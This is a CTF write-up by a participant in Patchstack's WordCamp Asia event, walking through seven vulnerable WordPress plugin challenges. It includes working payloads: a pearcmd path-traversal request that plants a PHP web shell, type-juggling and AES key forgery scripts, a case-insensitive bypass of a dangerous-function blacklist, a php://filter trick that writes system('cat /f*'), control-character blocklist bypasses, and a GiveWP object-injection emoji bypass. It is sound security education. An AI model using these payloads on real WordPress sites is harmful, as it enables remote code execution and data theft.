

## Intro

So i participated in Patchstack's third hosted CTF event, this time it's WordCamp Asia CTF. I managed to solve 7/10 challenges along the way and secured 3rd place in the leaderboard. The difficulty definitely harder than last patchstack CTF (in my opinion), but still fun. I learn a lot of cool tricks, specially in PHP and WordPress environment. Kudos to all problem setters, you guys did a great job 🔥🔥


## Challenges

Unfortunately, i'm unable to solve all challenges. But let's see what im solve so far 😉

### A Nice Block
> I like the new Gutemberg editor, so I just installed a plugin with beautiful blocks addons. That's a great plugin that perfectly matches my design needs, I don't think it could cause a security issue, right?
>   
> This is a whitebox challenge, no need to bruteforce anything (login, endpoint, etc).

This is the easiest challenge (because it was the most solved challenge).  

in the given source code, we can observe that it try to install `kiwiblocks` plugins. 


The plugin itself already provided in the source code, so we can started by analyzing the plugin's code. One of the files that caught my eyes were panel.php


it'll search for `tab` parameter, and then tries to include it without any proper sanitation. This approach is definitely unsafe and vulnerable to Path Traversal File Inclusions. This vuln can be used to load any files within the server.

Since it uses wordpress image from docker, then we can use [pearcmd tricks](https://www.leavesongs.com/PENETRATION/docker-php-include-getshell.html#0x06-pearcmdphp) to gain code execution.


This is due `register_argc_argv` is always enabled and php pear is always installed in wordpress docker image.

I sent a request to `/wp-content/plugins/kiwiblocks/src/admin-panel/views/panel.php?+config-create+/&tab=../../../../../../../../../../../usr/local/lib/php/pearcmd.php&/<?system($_GET[0])?>+/tmp/beluganothere.php` to upload a web shell within `tmp` directory.


Then use the same vuln to access the uploaded file. We got the flag!


**Flag: CTF{TABBING_THE_TAB_0z933}**

---

### Patchstack Scheduler Pro

> Patchstack needed to update their Blog content and asked a freelancer to make a plugin for scheduling their newest advisories. It has not been tested yet can you check it for us?

In this challenge, we were given a custom plugins called `patchstack scheduler pro`. If take a look in `Makefile`, we can see that it tries to insert 50 **draft** random posts with one of them containing `ps_api_token`. Let's note this for later.


In the plugin index files, we can see that it registered several ajax actions. All of them have `nopriv` prefix, so it can be accessed from unauthenticated users.

```php
add_action('admin_menu', array($this, 'add_admin_menu'));
add_action('admin_enqueue_scripts', array($this, 'enqueue_admin_assets'));
add_action('wp_ajax_nopriv_patchstack_scheduler_preview', array($this, 'handle_preview_request'));
add_action('wp_ajax_patchstack_scheduler_preview', array($this, 'handle_preview_request'));
add_action('wp_ajax_nopriv_patchstack_scheduler_compare', array($this, 'handle_compare_request'));
add_action('wp_ajax_patchstack_scheduler_compare', array($this, 'handle_compare_request'));
add_action('wp_ajax_nopriv_patchstack_scheduler_settings', array($this, 'handle_settings_request'));
add_action('wp_ajax_patchstack_scheduler_settings', array($this, 'handle_settings_request'));
```


Let's analyze each of the ajax actions. I'll started with `handle_preview_request`

```php
public function handle_preview_request() {
    $post_id = isset($_GET['post_id']) ? intval($_GET['post_id']) : 0;
    $post = get_post($post_id);
    if (!$post) {
        wp_send_json_error('Post not found');
        return;
    }
    wp_send_json_success(array(
        'content' => $post->post_content,
        'title' => $post->post_title
    ));
}
```

it will ask for `post_id` parameter, and then return post content if any. This action doesn't check for post status so we can read any post content in the site, even if the post status is draft or private.


For the second ajax `handle_compare_request`, we got following code

```php
public function handle_compare_request() {
    $raw_data = file_get_contents('php://input');
    $content_type = isset($_SERVER['CONTENT_TYPE']) ? $_SERVER['CONTENT_TYPE'] : '';
    
    if (strpos($content_type, 'application/json') !== false) {
        $data = json_decode($raw_data, true);
    } else {
        $data = $_POST;
    }
    
    if (!isset($data['api_token']) || $data['api_token'] !== get_option('ps_api_token')) {
        wp_send_json_error('Invalid API token');
        return;
    }
    
    if (!isset($data['encryption_key']) || $data['encryption_key'] != $this->encryption_key) {
        wp_send_json_error('Invalid encryption key');
        return;
    }
    
    if (isset($data['revision_data']) && isset($data['revision_data']['post_status'])) {
        $status = $data['revision_data']['post_status'];
        if ($status === 'draft') {
            $config = $this->get_encrypted_config();
            wp_send_json_success(array('encrypted_config' => $config));
            return;
        }
    }
    
    wp_send_json_error('Invalid revision data');
}
```

It will try to read POST data as JSON, then perform several checks as follows:

1. it will check if `api_token` is match with one in the wp options. Note that it uses strict comparasion `!==`
2. try to check if `encryption_key` is same with value stored in the plugins. Note that it use loose comparasion `!=`
3. try to check if `revision_data` is exists, and `revision_data.post_status` value is set to `draft`

If all criteria were met, then it will return encrypted config using `get_encryption_config` method.

```php
private function get_encrypted_config() {
    $config = array(
        'status' => 'draft',
        'permissions' => array(
            'view' => true,
            'edit' => false
        ),
        'encryption_key' => $this->encryption_key
    );
    
    $uuid = substr($this->encryption_key, 0, 16);
    $encrypted = openssl_encrypt(
        json_encode($config),
        'AES-256-CBC',
        $uuid,
        0,
        $uuid
    );
    
    return base64_encode($uuid . base64_decode($encrypted));
}
```

This method will encrypt the current plugin config with AES-256-CBC algorithm, but using the same value for both KEY & IV. It also append the plaintext IV into the base64 encoded data. So if we try to base64 decode, and then substract the first 16 character, then we'll get the KEY to decrypt the remaining data.

sounds great, right? but how can we fullfill the checking criteria described before?

for the first check, we can use IDOR within `handle_preview_request` to leak `api_token` from the draft post. We need to bruteforce a bit here since it was hidden within other 50 posts. In this case, i was able to found the correct post in id 36.


Then how about `encryption_key`? we dont have any way to get the value of the key.. right? well, yes, but no.  
we don't need to know the actual value of the `encryption_key` since it was using loose operator to compare. Since the POST is in JSON format, then we can use `true` as the value. This type of attack is well known as Type Juggling.  


then we can craft the other value accordingly to get the encrypted config.


We can decode the base64 data to obtain the encryption key

```php
<?php

$decoded = base64_decode("MWEwNDY1YWQtMTFkMy00NG3dDSyMtvZuU+aUR3m+mhbmL97Xms5PKdE68WEwW3Qm54qJ9mGDY4Ar39kDk23WXzu5T7MZ/RKX2bdbRO7jcbp1ALhvPEpVM2LAM0a6y+cnM7bok0/lA2APiaurEdz4eH6xddsf6RQ/AeO9QNCZI/1iQC1rpGJyA40KmhIwl6Vg");
$uuid = substr($decoded, 0, 16);
$enc = substr($decoded, 16);

echo "KEY & IV: " . $uuid . "\n";

$decrypted = openssl_decrypt(
                base64_encode($enc),
                'AES-256-CBC',
                "1a0465ad-11d3-44", 
                0,
                "1a0465ad-11d3-44"
            );

echo "Decrypted: " . $decrypted . "\n";
```


Here we found the full encryption_key. This will be handy later on.

Now let's analyze the third ajax, `handle_settings_request`.

```php
public function handle_settings_request() {
    $data = json_decode(file_get_contents('php://input'), true);
    
    if (!isset($data['config'])) {
        wp_send_json_error('Missing config');
        return;
    }
    
    try {
        $decoded = base64_decode($data['config']);
        $uuid = substr($decoded, 0, 16);
        $encrypted = substr($decoded, 16);
        
        $decrypted = openssl_decrypt(
            base64_encode($encrypted),
            'AES-256-CBC',
            $this->encryption_key,
            0,
            $uuid
        );
        
        $config = json_decode($decrypted, true);
        
        if ($config && 
            isset($config['status']) && 
            $config['status'] === 'publish' && 
            isset($config['permissions']['all']) && 
            $config['permissions']['all'] === true &&
            isset($config['flag_access']) &&
            $config['flag_access'] === true) {
                $flag = @file_get_contents('/flag.txt');
                wp_send_json_success(array(
                    'message' => 'Configuration updated',
                    'flag' => trim($flag)
                ));
                return;
        }
        
        wp_send_json_success(array('message' => 'Configuration updated'));
        
    } catch (Exception $e) {
        wp_send_json_error('Invalid configuration');
    }
}
```

It will read JSON body, then check if base64 encoded config data is match with the validation. Note that this time the config is decrypted using `encryption_key`. Since we already know the full value of `encryption_key`, then we can also craft the correct config format to read the flag.

Below is the script used to craft the correct config data.

```php
$key = "1a0465ad-11d3-440c-9b80-42d429652c9c";
$uuid = "1a0465ad-11d3-44";

$enkrip = array(
    "status" => "publish",
    "permissions" => array("all" => true),
    "flag_access" => true,
    "encryption_key" => "1a0465ad-11d3-440c-9b80-42d429652c9c"
);

$enkrip = json_encode($enkrip);

$encrypted = openssl_encrypt(
                $enkrip,
                'AES-256-CBC',
                $key, 
                0, 
                $uuid
            );

$final = $uuid . base64_decode($encrypted);
$encoded = base64_encode($final);

echo "Encrypted: " . $encoded;
```


Flag Obtained!


**Flag: CTF{crypt0_aint_crypt0ing_patchstack2o25}**

---

### Sup3rcustomiz3r

> My friend is developing a cool plugin to help me customize my Login page, isn't that nice? So many stuff and options, I'm sure it's 100% safe to use...  
>  
> This is a whitebox challenge, no need to bruteforce anything (login, endpoint, etc).

in the given challenge file, we can observe that it only uses one plugin called `login-customizer`


There were several ajax action in the plugins.


Let's try to analyze the unauthenticated ajax. `patchstack_get_the_flag` action will try to sent a flag if we logged in with any of the whitelisted roles (administrator, author, contributor)

```php
function get_the_flag()
{
    $user = wp_get_current_user();
    $allowed_roles = ["administrator", "author", "contributor"];
    if (array_intersect($allowed_roles, $user->roles)) {
        $value = file_get_contents('/flag.txt');
        wp_send_json_success(["value" => $value]);
    } else {
        wp_send_json_error("Unauthorized");
    }
}
```

`login_register_user` action allow us to register in the site, and then set the `default_role` to `subscriber`. Note that the registration role is not set within `wp_create_user` function. In this case, then it will use role defined in `default_role` option value.

```php
function login_register_user() {
    $username = sanitize_user($_POST['username']);
    $email = sanitize_email($_POST['email']);
    $password = $_POST['password'];

    if (empty($username) || empty($email) || empty($password)) {
        wp_send_json_error(array(
            'message' => 'All fields (username, email, password) are required.',
        ));
    }
    if (!is_email($email)) {
        wp_send_json_error(array(
            'message' => 'Invalid email address.',
        ));
    }
    if (username_exists($username) || email_exists($email)) {
        wp_send_json_error(array(
            'message' => 'Username or email already exists.',
        ));
    }

    $user_id = wp_create_user($username, $password, $email);
    update_option("default_role", "subscriber");

    if (is_wp_error($user_id)) {
        wp_send_json_error(array(
            'message' => $user_id->get_error_message(),
        ));
    }

    wp_send_json_success(array(
        'message' => 'User registered successfully.',
        'user_id' => $user_id
    ));
}
```

We also had interesting authenticated ajax action that can be used to set options


```php
function set_option() {
    if ( isset( $_POST['_wpnonce'] ) && wp_verify_nonce( sanitize_text_field( wp_unslash( $_POST['_wpnonce'] ) ), 'login-customizer-admin' ) ) {
        $op = sanitize_text_field($_POST['option']);
        $val = sanitize_text_field($_POST['value']);

        update_option($op, $val);
        wp_send_json_success( 'Option has been saved', 201 );
    }
}
```

this action doesn't validate to user role at all. It just perform validation based on the nonce validation. So in theory, if any authenticated users able to obtain nonce value of `login-customizer-admin`, then they can access this ajax and update arbitrary wp options.

If we try to trace the nonce generation, we can found that it was generated in `preview_data` method if `is_preview_mode` method is true. `is_preview_mode` just try to search if there's `preview` parameter set.

```php
public function is_preview_mode() {

    // Check if preview page is the current page.
    if ( isset( $_GET['preview'] ) ) {
        return true;
    }
    else {
        return false;
    }
}

public function preview_data() {
    if ( ! $this->is_preview_mode() ) {
        return;
    }
    echo '<script>var _customizePartialRefreshExports = "";var _ldAdminNounce = '.wp_create_nonce( 'login-customizer-admin').'"</script>';
}
```

this method were called within `__construct` method of `Login_Customizer_Customizer_Scripts`. The method also initialized directly in the end of file.

```php
class Login_Customizer_Customizer_Scripts {

    /**
     * The class constructor.
     * Adds actions to enqueue our assets.
     */
    public function __construct() {
        add_action( 'wp_footer', array( $this, 'preview_data' ), 1000 );
    }
}

new Login_Customizer_Customizer_Scripts();
```

the file also included in the plugin's index file.


so basically it was applied in **any pages**. This mean we can put `?preview=anything` params into any pagaes as authenticated users to obtain the nonce value.

Let's try to create new user.


If you login and then access any page with the `preview` parameter, we will obtain the nonce value.


with the authenticated cookie & nonce value, we can then access `set_option` ajax.  


this allows us to set `default_role` options to `contibutor`, and we can just register again to get users with `contributor` role.


with the contributor role account, we can now get the flag.


**Flag: CTF{TUNING_NOT_FOR_THE_WIN_0z933}**

---

### Cool Templates

> I had someone build me a plugin so I can send out some links with special footers. I'm sure the code is safe, right?  
>  
> This is a whitebox challenge, no need to bruteforce anything (login, endpoint, etc).


In this challenge, we were given single plugin called `custom-footer`


The plugin only have single files below:

```php
/**
 * Plugin Name: Custom Footer
 * Description: Adds a custom footer to every page.
 * Version: 1.0
 * Author: Dev Eloper
 */

if (!defined('ABSPATH')) {
    exit; // Prevent direct access
}


function simpletext($text = "Default Footer Text") {
    return "<footer style='text-align:center; padding:10px; background:#f1f1f1;'>{$text}</footer>";
}
function bigtext($text = "Default Footer Text") {
    return "<footer style='text-align:center; padding:10px; background:#333; color:#fff;'>{$text}</footer>";
}
function gradientfooter($text = "Default Footer Text") {
    return "<footer style='text-align:center; padding:15px; background:linear-gradient(to right, #ff7e5f, #feb47b); color:#fff;'>{$text}</footer>";
}

function add_custom_footer() {
    $blacklist = array("system", "passthru", "proc_open", "shell_exec", "include_once", "require", "require_once", "eval", "fopen",'fopen', 'tmpfile', 'bzopen', 'gzopen', 'chgrp', 'chmod', 'chown', 'copy', 'file_put_contents', 'lchgrp', 'lchown', 'link', 'mkdir', 'move_uploaded_file', 'rename', 'rmdir', 'symlink', 'tempnam', 'touch', 'unlink', 'imagepng', 'imagewbmp', 'image2wbmp', 'imagejpeg', 'imagexbm', 'imagegif', 'imagegd', 'imagegd2', 'iptcembed', 'ftp_get', 'ftp_nb_get', 'file_exists', 'file_get_contents', 'file', 'fileatime', 'filectime', 'filegroup', 'fileinode', 'filemtime', 'fileowner', 'fileperms', 'filesize', 'filetype', 'glob', 'is_dir', 'is_executable', 'is_file', 'is_link', 'is_readable', 'is_uploaded_file', 'is_writable', 'is_writeable', 'linkinfo', 'lstat', 'parse_ini_file', 'pathinfo', 'readfile', 'readlink', 'realpath', 'stat', 'gzfile', 'readgzfile', 'getimagesize', 'imagecreatefromgif', 'imagecreatefromjpeg', 'imagecreatefrompng', 'imagecreatefromwbmp', 'imagecreatefromxbm', 'imagecreatefromxpm', 'ftp_put', 'ftp_nb_put', 'exif_read_data', 'read_exif_data', 'exif_thumbnail', 'exif_imagetype', 'hash_file', 'hash_hmac_file', 'hash_update_file', 'md5_file', 'sha1_file', 'highlight_file', 'show_source', 'php_strip_whitespace', 'get_meta_tags', 'extract', 'parse_str', 'putenv', 'ini_set', 'mail', 'header', 'proc_nice', 'proc_terminate', 'proc_close', 'pfsockopen', 'fsockopen', 'apache_child_terminate', 'posix_kill', 'posix_mkfifo', 'posix_setpgid', 'posix_setsid', 'posix_setuid', 'phpinfo', 'posix_mkfifo', 'posix_getlogin', 'posix_ttyname', 'getenv', 'get_current_user', 'proc_get_status', 'get_cfg_var', 'disk_free_space', 'disk_total_space', 'diskfreespace', 'getcwd', 'getlastmo', 'getmygid', 'getmyinode', 'getmypid', 'getmyuid', 'create_function', 'exec', 'popen', 'proc_open', 'pcntl_exec');
    if (isset($_REQUEST['template']) && isset($_REQUEST['content'])) {
        $template = $_REQUEST['template'];
        $content = wp_unslash(urldecode(base64_decode($_REQUEST['content'])));

        if(preg_match('/^[a-zA-Z0-9]+$/', $template) && !in_array($template, $blacklist)) {
            $footer = $template($content);
            echo $footer;
        }
    }
}

add_action('wp_footer', 'add_custom_footer');

```

It ask for `template` and `content` parameter, perform some validation (only allow alphanumeric characters and check for blacklisted function), base64 & url decode the content, and then perform dynamic function calls using `$template($content);`

then i thought...  


so we can basically calls any function that alphanumeric and require only **1 required** arguments.

I try to search all possible php functions and wordpress function that match the criteria but found nothing. Author also said that this challenge were not meant to be solved in less than 2 days 🤯

so.. this should be the HARDEST challenges so far. Well... if no unintended were found. Surely there isn't unintended.. right?


well, there is!

upon closer inspection, the validation only checks if `template` content is not in `blacklist`, but how about the case? PHP function can still be called even with inappropriate case.  


so we can bypass the protection and call system function like this. Flag obtained!


**Flag: CTF{C00l_T3mpl4t3s_759eee4d}**

---

### Blocked

> it's blocked, nothing to do here.  
>  
>  NOTE: This is a fully white box challenge, almost no heavy brute force is needed.

In this challenge, we were given one plugins named `test-plugin`.


It only have single files below

```php
if ( ! defined( 'WPINC' ) ) {
	die;
}

define( 'PLUGIN_NAME_PLUGIN_NAME', 'test-plugin' );
define( 'PLUGIN_NAME_VERSION', '1.0.0' );
define( 'PLUGIN_NAME_URL', plugin_dir_url( __FILE__ ) );
define( 'PLUGIN_NAME_PATH', plugin_dir_path( __FILE__ ) );
define( 'PLUGIN_NAME_BASE_DIR', plugin_dir_path( __FILE__ ) );
define( 'PLUGIN_NAME_BASE_NAME', plugin_basename( __FILE__ ) );

add_action("init", "set");
add_action("rest_api_init", "register_endpoints");

function set(){
    update_option("secretword_is_true", "anything");
}

function register_endpoints(){
    register_rest_route( 'test', '/upload/(?P<somevalue>\w+)', [
        'methods' => WP_Rest_Server::CREATABLE,
        'callback' => 'upload_something',
        'permission_callback' => 'check_request',
    ]);
}

function check_request( $request ) {
    $some_value = trim( strtolower( $request['somevalue'] ) );
    if( empty( $some_value ) ) {
       return false;
    }
 
    if( ! preg_match( '/^secretword_/i', $some_value) ) {
       return false;
    }
 
    if( $some_value == 'secretword_is_true' ) {
       return false;
    }
    
    return true;
}

function upload_something($request){
    $body = $request->get_json_params();
    $content = $body['content'];
    $name = $body['name'];
    $some_value = trim( strtolower( $request['somevalue'] ) );

    if(!get_option($some_value)){
        echo "blocked";
        exit(); 
    }

    if(strlen($name) > 105){
        echo "blocked.";
        exit();
    }
    
    $write = <<<EOF
        <?php
            exit('ha?');
            // $content

    EOF;

    var_dump($name . '.php');
    var_dump($write);

    file_put_contents($name . '.php', $write);
    return rest_ensure_response( "success" );
}

```

The plugin defined one Rest API endpoint that will call `upload_something` function if `check_request` is True.

`check_request` will search if there's request parameter named `somevalue`, then check if it's started with `secretword_` and also check if the value is exactly `secretword_is_true`

sound simple, right? param value such as `secretword_is_false` can be used to pass this checking.


let's continue with the callback function. It will read JSON POST data, then try to search for `somevalue` properties (doesn't matter if it's in URL Param or JSON Body). It will try to get options for the `somevalue` and check if there's any. It also checks the length `name` properties.

If all the requirement fullfilled, then it will put user's `content` properties, and write it into user defined `$name` properties, with the extension of `.php`


so here we have a problem:

1. First of all, there's option named `secretword_is_true`. We **must** use this as the `somevalue` params so we can pass the checking in `upload_something`. However if we doing so, then we can't pass the restriction set in `check_request`.
2. altough we can control the filename of the uploaded file, we can't really execute php code. This is due to `exit` code in the content of the uploaded files. No matter the content we provide, it wont be executed.

so, how can we solve the problem?


After trying different method and approach, i suddenly remember that mysql doesn't really care about nullbyte characters (%00). 


but due to usage of `trim` function in the plugin, we can't use nullbyte characters 😥


Here's the interesting part. When i try other characters, such as %01, suddenly it worked!


I'm not sure which part (either wordpress or the database) is responsible for this tricks to be happend. But let's say it's because database were ignoring the %01 character, just like it ignoring %00.

Ok, so now we need to solve the second problem. How can we achieve code execution if the php script use `exit` function?

well apparently it's a well known tricks that've been lying in the internet for long time. I accidentaly found the solution from [chinese CTF writeup ](https://github.com/SniperOJ/Jeopardy-Dockerfiles/tree/master/web/bypass-php-exit)

The solution was using php filter chain to remove all php tags, and then perform base64 decode to our payload. So in the end, the `exit()` code will be deleted.

to make it easier to understand, here's the chain workflow.

> Original PHP Code
```php
<?php
    exit('ha?');
    // YOUR PAYLOAD GOES HERE

```

> PHP Code after append. Content = `?>\nPD9waHAgc3lzdGVtKCdjYXQgL2YqJyk7Pz4K` 

```php
<?php
    exit('ha?');
    // 
?>PD9waHAgc3lzdGVtKCdjYXQgL2YqJyk7Pz4K
```

> Then when the `file_put_contents` try to write the file, it will delete the previous tags
```php
PD9waHAgc3lzdGVtKCdjYXQgL2YqJyk7Pz4K # not deleted because located outside of php tags
```

> Finally will perform base64 decode
```php
<?php system('cat /f*');?> # final content written to file
```

Then we can access the uploaded content, and retrieve the flag


Flag obtained!


**Flag: CTF{you_bypass_the_exit_nice_8b31009122dd}**

---

### Up To You

> it's all up to you.  
>  
> NOTE: This is a fully white box challenge, almost no heavy brute force is needed.

In this challenge, we were given three plugins. Flag is saved in the private posts. So the objective is to leak private post.


Let's started with custom plugins named `test-plugin`.

```php
if ( ! defined( 'WPINC' ) ) {
	die;
}

define( 'PLUGIN_NAME_PLUGIN_NAME', 'test-plugin' );
define( 'PLUGIN_NAME_VERSION', '1.0.0' );
define( 'PLUGIN_NAME_URL', plugin_dir_url( __FILE__ ) );
define( 'PLUGIN_NAME_PATH', plugin_dir_path( __FILE__ ) );
define( 'PLUGIN_NAME_BASE_DIR', plugin_dir_path( __FILE__ ) );
define( 'PLUGIN_NAME_BASE_NAME', plugin_basename( __FILE__ ) );

add_action("wp_ajax_nopriv_uptoyou", "uptoyou");

function uptoyou(){
    $option_name = $_POST["option_name"];
    $nope = array('users_can_register', 'auto_update_core_minor', 'auto_update_core_dev', 'upload_url_path', 'mailserver_pass', 'wp_user_roles', 'template', 'blog_public', 'html_type', 'sticky_posts', 'use_balanceTags', 'page_for_posts', 'permanent-links', 'hack_file', 'multisite', 'comment_max_links', 'mailserver_login', 'use_trackback', 'comments_per_page', 'default_pingback_flag', 'siteurl', 'enable_app', 'large_size_w', 'default_comments_page', 'default_comment_status', 'links', 'moderation_keys', 'sidebars_widgets', 'posts_per_page', 'links_updated_date_format', 'default_role', 'theme', 'advanced_edit', 'image_default_link_type', 'blogname', 'thumbnail_size_w', 'admin_email', 'enable_xmlrpc', 'rss_use_excerpt', 'require_name_email', 'comment_whitelist', 'medium_large_size_h', 'show_comments_cookies_opt_in', 'comment_order', 'use_balancetags', 'close_comments_for_old_posts', 'gzipcompression', 'use_smilies', 'upload_path', 'moderation_notify', 'close_comments_days_old', 'medium_size_w', 'show_on_front', 'reading', 'show_avatars', 'default_post_format', 'site_icon', 'comments_notify', 'adminhash', 'gmt_offset', 'rewrite_rules', 'rss_language', 'thread_comments_depth', 'permalink_structure', 'default_category', 'links_recently_updated_append', 'thread_comments', 'home', 'widget_categories', 'use_linksupdate', 'default_post_edit_rows', 'comment_moderation', 'start_of_week', 'wp_page_for_privacy_policy', 'date_format', 'widget_text', 'active_plugins', 'avatar_default', 'timezone_string', 'auto_update_core_major', 'default_ping_status', 'tag_base', 'media', 'widget_rss', 'general', 'time_format', 'large_size_h', 'others', 'embed_size_w', 'posts_per_rss', 'image_default_size', 'mailserver_url', 'fileupload_maxk', 'page_comments', 'links_recently_updated_time', 'thumbnail_size_h', 'page_on_front', 'uploads_use_yearmonth_folders', 'ping_sites', 'comment_registration', 'thumbnail_crop', 'medium_large_size_w', 'recently_edited', 'image_default_align', 'avatar_rating', 'links_recently_updated_prepend', 'new_admin_email', 'comments', 'embed_size_h', 'default_email_category', 'embed_autourls', 'stylesheet', 'blacklist_keys', 'https_detection_errors', 'medium_size_h', 'category_base', 'blogdescription', 'avatars', 'mailserver_port', 'default_link_category', 'secret', 'writing', 'blog_charset');


    if(!in_array($option_name, $nope)){
        update_option($option_name, wp_json_encode($_POST["option_value"]));
    }

    echo "option updated";
}
```

The plugin only containing this single file. It will register ajax action where we can update any options in the wordpress. However the value was in JSON format due to `wp_json_encode` function.

due to json encode, we can't enable options that require integer value such as `users_can_register`. We also can't controll options that require string format becausee `wp_json_encode` always gives additional double quote in the database.

There were a lot of blacklisted options. But as we solve previous challenges, we know that we can also bypass the blacklist using %01 or \u0001 characters.

That's all for the custom plugin, now let's analyze the other two plugins. Here we found a lot of WP Rest route, but rest api from `slim-seo` is protected by role and permissions. 


Since we dont have any credentials, and we can't register, we can only search for unauthenticated rest. Luckily, rest api from `squirrly-seo` doesn't check for permissions.

```php
public function hookInit() {

    if ( SQ_Classes_Helpers_Tools::getOption( 'sq_api' ) == '' ) {
        return;
    }

    if ( ! SQ_Classes_Helpers_Tools::getOption( 'sq_cloud_connect' ) ) {
        return;
    }

    $this->token = SQ_Classes_Helpers_Tools::getOption( 'sq_cloud_token' );

    //Change the rest api if needed
    add_action( 'rest_api_init', array( $this, 'sqApiInit' ) );
}


function sqApiInit() {
    if ( function_exists( 'register_rest_route' ) ) {

        register_rest_route( $this->namespace, '/indexnow/', array(
                'methods'             => WP_REST_Server::EDITABLE,
                'callback'            => array( $this, 'indexUrl' ),
                'permission_callback' => '__return_true'
            ) );

        register_rest_route( $this->namespace, '/save/', array(
                'methods'             => WP_REST_Server::EDITABLE,
                'callback'            => array( $this, 'savePost' ),
                'permission_callback' => '__return_true'
            ) );

        register_rest_route( $this->namespace, '/get/', array(
                'methods'             => WP_REST_Server::READABLE,
                'callback'            => array( $this, 'getData' ),
                'permission_callback' => '__return_true'
            ) );

        register_rest_route( $this->namespace, '/test/', array(
                'methods'             => WP_REST_Server::EDITABLE,
                'callback'            => array( $this, 'testConnection' ),
                'permission_callback' => '__return_true'
            ) );


        // load deprecate API for compatibility
        $this->deprecateRest();
    }
}

/*
    * Deprecate since version 12.1.10
    */
public function deprecateRest() {
    register_rest_route( 'save', '/squirrly/', array(
            'methods'             => WP_REST_Server::EDITABLE,
            'callback'            => array( $this, 'savePost' ),
            'permission_callback' => '__return_true'
        ) );

    register_rest_route( 'test', '/squirrly/', array(
            'methods'             => WP_REST_Server::EDITABLE,
            'callback'            => array( $this, 'testConnection' ),
            'permission_callback' => '__return_true'
        ) );

    register_rest_route( 'get', '/squirrly/', array(
            'methods'             => WP_REST_Server::READABLE,
            'callback'            => array( $this, 'getData' ),
            'permission_callback' => '__return_true'
        ) );
}
```

as can be seen in the `hookInit` method, the rest api only registered once several value is available in the options. 

if we checks on `/wp-json`, we can't see any of those rest api as well.


```php
defined( 'SQ_OPTION' ) || define( 'SQ_OPTION', 'sq_options' ); # yoinked from config.php

public static function getOptions() {
    if ( is_multisite() ) {
        self::$options = json_decode( get_blog_option( get_main_site_id(), SQ_OPTION ), true );
    } else {
        self::$options = json_decode( get_option( SQ_OPTION ), true );
    }

    return self::$options;
}

public static function getOption($key)
{
    if (!isset(self::$options[$key])) {
        self::$options = self::getOptions();

        if (!isset(self::$options[$key])) {
            self::$options[$key] = false;
        }
    }

    return apply_filters('sq_option_' . $key, self::$options[$key]);
}
```

The function used to obtain `sq_options` value from database, then perform json decode. hmmm, json decode? sounds great!

Here's the beautified json config looks like


So we need to set `sq_api` value to anything than empty string, `sq_cloud_connect` to true, and `sq_cloud_token` to our controlled string.

we can do this with following ajax action


now the rest api successfully registered!


Now we can continue with the rest api callback. One of the interesting callback is `getData` where it can be used to retrieve post informations based on postId

```php
public function getData( WP_REST_Request $request ) {

    global $wpdb;
    $response = array();
    SQ_Classes_Helpers_Tools::setHeader( 'json' );

    //get the token from API
    $token = $request->get_param( 'token' );
    if ( $token <> '' ) {
        $token = sanitize_text_field( $token );
    }

    if ( ! $this->token || $this->token <> $token ) {
        exit( wp_json_encode( array( 'error' => esc_html__( "Connection expired. Please try again.", 'squirrly-seo' ) ) ) );
    }

    $select = $request->get_param( 'select' );

    switch ( $select ) {
        case 'innerlinks':

        # SNIFFED

        case 'keyword':
        
        # SNIFFED

        case 'posts':

        # SNIFFED

        case 'post':

            $id = (int) $request->get_param( 'id' );

            if ( $id == 0 ) {
                wp_send_json_error( esc_html__( "Wrong Params", 'squirrly-seo' ) );
            }

            //get Squirrly SEO post metas
            if ( $post = SQ_Classes_ObjController::getClass( 'SQ_Models_Snippet' )->setPostByID( $id ) ) {
                $response = $post->toArray();
            }

            break;

        case 'squirrly':

        # SNIFFED

    }

    echo wp_json_encode( $response );

    exit();

}
```

however in order to access this route, we need to input `token` parameter which will be compared with token in the config. As we already set the token before, we can directly access this routes.

We need to perform little bruteforce here to find the correct postid where flag is stored. I found the private post in id 5.

Flag Obtained!


**Flag: CTF{up_to_you_how_to_get_the_flag_7cdd34392012dd}**


---

### Give

> Who give me ?  
>  
> This is a whitebox challenge, no need to bruteforce anything (login, endpoint, etc).


In this challenge, two plugins were given. `give` and `rollbar`


Patchstack recently published article about [GiveWP Unauthenticated Object Injection](https://patchstack.com/articles/critical-vulnerability-patched-in-givewp-plugin/)

In the current version of GiveWP, there were no POP Gadget that can be used to achieve RCE. However we have `rollbar` plugin which contains POP Gadget for Monolog. The same plugin also used in previous Patchstack CTF.

In the post, it was mentioned that previous fix for CVE-2024-5932 or validation in `isSerialized` method can be bypassed using emojies. The validation will return False due to emoji bypass, and the final value (before being inserted into the database) is sanitized using the sanitize_text_field function, which will remove the emojis from the user input. Thus, a serialized object is inserted into the database.

```php
function give_clean($var, $allow_serialized_data = false)
{
    if (is_array($var)) {
        return array_map('give_clean', $var);
    }

    if ( Utils::isSerialized($var)) {
        $var = $allow_serialized_data ? Utils::safeUnserialize($var) : '';
    }

    return is_scalar($var) ? sanitize_text_field(wp_unslash($var)) : $var;
}
```

When the value is retrieved from database (using `get_meta` function), it will try to unserialize the value. Thus giving us Object Injection Vulnerability, sweat 😋  

In order to know where should we put the emoji bypass, we need to look at the validation code. As can be seen below, it try to detect several serialized pattern. This pattern can be bypassed by replacing (for example) `O:DIGIT` with `O:emojiDIGIT`

